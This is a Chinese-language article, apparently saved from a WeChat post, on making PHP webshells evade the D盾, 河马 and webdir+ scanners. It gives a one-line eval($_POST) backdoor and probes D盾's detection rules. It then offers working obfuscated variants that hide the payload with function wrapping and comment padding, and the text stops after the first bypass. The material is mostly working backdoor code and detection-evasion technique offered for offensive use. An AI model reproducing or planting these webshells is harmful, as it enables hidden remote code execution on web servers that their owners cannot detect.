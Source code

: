 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/etzMpxzn71_M2xeT_V5duw)

**0x00：简介 -**

此篇只讨论 php，其实原理是相同的，本文的思路依然适用于其他语言  
由于 php7.1 以后 assert 不能拆分了，所以此篇不使用 assert 函数作为核心，使用适用性更广的 eval。

免杀顺序依次为 D 盾 河马 webdir+  
**0x01：探究免杀**

**免杀 D 盾**  
首先我们需要了解免杀的原理，免杀其实就是绕过杀软的规则，而规则对我们来说是不透明的，但是可以根据 fuzz 探知个大概。

首先请出我们的一句话木马：

```
<?php @eval($_POST('a'));?>
```

无论如何混淆 webshell，我们期望最终得到的逻辑依然是这条代码，所以答案知道了，想办法混淆就行了。

经过对 D 盾的探测，可以知道，它对函数的检测其实是比较粗糙的，比如我们构造一个函数，让其返回值拼接为

```
eval($_POST['a'])
```

```
<?php

function x()
{

    return $_POST['a'];

}

eval(x());
?>
```

D 盾扫一下

![](https://mmbiz.qpic.cn/mmbiz_png/dAMlD06OYdJUjfSUfXxvV0uINLfUse46lHkY654EXkCTFbAV5oPTNfPwD3Upz4d7vWhYdEVaWlAFxiaJ86adsiag/640?wx_fmt=png)

被杀了，显然 D 盾并没有给出我们为什么这个会被杀，只说是已知后门，这里我们测试一下到底是什么东西被规则杀掉了。

首先，无论如何更改函数名，都会被杀掉，所以和函数名没关系，然后就是 eval 内的参数了，测试后发现，只要拼接成 eval($_POST['a']) 就会被杀，因此我们避免语句直接拼接为这样即可。

如何避免直接拼接呢 当然是往中间加料了 加一些既不会破坏语法又能起到隔离作用的东西，什么东西可以做到这样呢？当然就是注释了

比如这样的：

```
<?php

function x()
{

    return "/*sasas23123*/".$_POST['a']."/*sdfw3123*/";

}

eval(x());
?>
```
